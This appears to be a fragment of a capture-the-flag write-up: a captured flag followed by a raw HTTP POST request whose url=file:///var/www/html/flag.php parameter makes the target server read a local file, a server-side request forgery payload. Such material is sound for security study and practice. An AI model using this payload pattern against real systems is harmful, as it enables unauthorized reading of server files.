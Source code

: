 Flag: HACKAFLAG{Batumtiszerozero}

POST /index.php HTTP/1.1

Host: 167.71.249.157

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 33

Origin: http://167.71.249.157

Connection: close

Referer: http://167.71.249.157/index.php

Upgrade-Insecure-Requests: 1


url=file:///var/www/html/flag.php
